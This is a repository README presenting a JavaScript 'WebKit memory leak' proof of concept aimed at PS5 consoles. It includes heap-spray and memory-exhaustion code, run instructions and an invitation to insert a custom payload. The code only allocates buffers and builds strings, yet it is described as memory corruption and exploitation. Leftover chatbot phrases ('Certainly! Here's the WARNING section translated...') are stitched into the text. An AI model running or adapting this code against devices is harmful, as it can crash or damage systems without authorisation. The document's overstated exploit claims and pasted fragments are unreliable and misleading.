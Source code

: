# Overflow WebKit Memory Leak PoC

## **DISCLAIMER**

**THIS REPOSITORY IS FOR TESTING PURPOSES ONLY!**  
A significant portion of this code might be incomplete or ineffective. If this vulnerability is ever fully exploited, it will likely be done by someone with far more expertise. I do not claim to be an expert in exploit development!

## Link
Follow this link for the exploit: [Overflow WebKit Memory Leak PoC](https://seregonwar.github.io/Overflow/)

## Description
This Proof of Concept (PoC) demonstrates a WebKit memory exhaustion exploit that I've been developing. It is functional in its current form but still requires full exploitation. Below, you'll find the JavaScript code that outlines how the PoC operates, along with an explanation of each step.

## How it Works
The code operates in five key steps:

1. **Heap Initialization**: Memory is allocated in a controlled manner to prepare for the attack.
2. **Heap Grooming**: The memory is manipulated to create gaps for exploit insertion.
3. **Memory Exhaustion**: The system's memory resources are continuously allocated and cleared to exhaust available memory.
4. **Payload Execution**: The exploit's payload is executed, triggering memory corruption.
5. **Exploit Execution**: All steps are run sequentially to trigger memory exhaustion and ultimately crash the system.

## Code

```javascript
// Step 1: Initialize Controlled Memory
function initializeHeap() {
    let buffers = [];
    for (let i = 0; i < 2048; i++) { // Reduced allocations
        buffers.push(new ArrayBuffer(500000)); // Smaller blocks of memory
    }
    return buffers;
}

// Step 2: Groom the Heap
function groomHeap() {
    let tempArray = [];

    // Allocate and deallocate in patterns
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        let buffer = new ArrayBuffer(1000); // Allocate smaller blocks
        tempArray.push(buffer);
    }

    // Deallocate some of the buffers to create holes in the heap
    for (let i = 0; i < 1512; i++) { // Fewer deallocations
        tempArray[i] = null; // Free up space to create holes in the heap
    }

    return tempArray;
}

// Step 3: Memory Exhaustion Function
function memExh() {
    let bufferArray = [];
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        bufferArray.push(new ArrayBuffer(900000)); // Allocate smaller buffers
        if (bufferArray.length > 512) { // Less aggressive clearing
            bufferArray = []; // Clear buffer array to exhaust memory
        }
    }
}

// Step 4: The Exploit Payload Function
function payload() {
    let largeString = "B".repeat(900000); // Smaller initial string
    let obj = {};
    let iterationCount = 0; // Counter to track the number of iterations

    while (true) {
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) { // Lower threshold for reset
            largeString = "B".repeat(900000); // Reset string to avoid overflow
        }
        memExh();
        iterationCount++;
        if (iterationCount > 64) break; // Control the number of iterations
    }
}

// Step 5: Perform the Exploit
function performExploit() {
    let controlledBuffers = initializeHeap(); // Initialize the heap
    let groomedHeap = groomHeap(); // Groom the heap

    // Start memory corruption
    memExh();

    // Run the payload
    payload();
}

// Execute the exploit
performExploit();
```

## Instructions

1. Copy and execute the above code on an exploitable PS5 (works up to version 9.60). This may not be applicable on PS4.
2. Remember, this is a PoC, and it should be used strictly for educational purposes.
3. Further testing and analysis are required to fully understand this vulnerability.
4. If needed, insert your custom payload inside the `payload` function.

## Disclaimer
This PoC is for educational purposes only. The author assumes no responsibility for any misuse of this code. 
Certainly! Here’s the **WARNING** section translated into English and formatted with markdown:

## **WARNING**

Running this Proof of Concept (PoC) comes with **serious risks** to the target device, including but not limited to:

1. **Device Bricking**: Incorrect or unmodified execution of this code could result in an **irreversible brick** of the system, rendering it completely unusable. This means the device might stop functioning entirely, with no chance of recovery.

2. **Data Loss**: This PoC exploits memory vulnerabilities, which could lead to file corruption or the loss of important data.

3. **Incompatibility**: The exploit may not work on all firmware versions or devices. Running it on an unsupported system version could cause unexpected and damaging consequences.

4. **Hardware Damage**: Continuous memory exhaustion and allocation could stress the hardware resources, potentially causing long-term physical damage to the device.

5. **Legal Risks**: Unauthorized use of exploits or vulnerabilities on devices you do not own, or without explicit consent, could violate local laws or licensing agreements.

**DO NOT** run this code on critical devices or on devices that you are not prepared to lose. Modify the PoC and fully understand its workings before executing it to minimize risks. **The author is not responsible for any damage caused by using this code.**

Let me know if you need further adjustments!
## Credit
The credits for the structure on which this tool is based were written by the aforementioned idebty, the credits are therefore assigned to him for having found the flaw, I have only expanded the operation!:
**Author**: [idebty](https://x.com/idebty?t=MT_ShLOs9wP9hcH3GNtkNA&s=09)  
